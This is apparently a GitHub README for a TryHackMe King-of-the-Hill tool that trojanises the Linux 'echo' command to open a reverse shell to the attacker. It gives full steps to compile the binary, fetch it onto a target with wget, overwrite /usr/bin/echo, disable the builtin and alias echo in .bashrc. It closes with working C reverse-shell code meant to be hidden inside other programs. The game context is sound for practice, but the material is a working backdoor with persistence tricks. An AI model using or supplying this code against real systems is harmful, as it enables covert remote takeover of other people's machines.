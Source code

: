 # Malicious Binary - echo for KoTH | TryHackMe



##  What does it do? <br />

1. This custom-echo will give you a reverse shell on a custom port that you set as PORT in the c code.
2. How it works is, whenever somebody runs an echo command on the machine in which you planted your custom-echo, it will send you a reverse shell! :shipit:<br />
3. This can be used in multiple ways, but in this case, we are using a reverse shell c code embedded in the raw echo.c code, that you can obtain via GitHub. (Linux, open-source! Yay.)

---------------
### How to use it?<br />

  - first, let's clone the repo:<br />
    
     ```bash
     git clone https://github.com/hoodietramp/custom-echo
     ```

  - now let's `cd` into it:<br />

     ```
     cd custom-echo
     ```

  - now, we got to compile it first:<br />

     ```
     gcc -o custom-echo custom-echo.c
     ```
     > You can also add static flag to compile it on your machine and have it ready to use on almost all linux machines.
     ```
     gcc -o custom-echo custom-echo.c --static
     ```

  - give it executable permissions:<br />
    
     ```
     chmod +x custom-echo
     ```
     
  - Now transfer it to the machine, in which you want to use it:<br />

     - [x] start a python server in your machine 

     - [x]  ```python3 -m http.server 80```

     - [x] Now, on the target machine,
         ``` wget LOCAL-IP/custom-echo; chmod +x custom-echo```
     
     - [x] This is potentially machine breaking, as we will be swapping our malicious binary with the default echo on the machine. 
       DO NOT TRY THIS ON YOUR OWN MACHINE.
       
       ```mv `which echo` /tmp/.tmpecho; cp custom-echo /usr/bin/echo```
       
     - [x] but it'll still not work because echo is a shell-built-in, means it doesn't require any external binary to work in Linux<br /> To fix this, use the following commands:<br />
            ```enable -n echo```<br />
            ```echo "alias echo='/usr/bin/echo'" >> ~/.bashrc```<br />
     - [x] Now we're ready to get our reverse shell. Let's see it in action. < 3

-----------------
##### Testing custom-echo:<br />

![image](images/echo.png)

![image](images/nc.png)

------------------

For users who want to play around with this code themselves, you can just take the below snippet and add it as called-function in any c code and compile it using the same process that we used above. (CBA with adding proper includes, if you are in this section, then you likely know how to.)
```C
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int caller()
{
    struct sockaddr_in sa;
    int s;
    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr("<ip>");
    sa.sin_port = htons(<port>);
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    execl("/bin/bash","bash","-i",0,0);
    return 0;
}
# Obviously call the caller func after some primary function of the code you are adding it in.
```

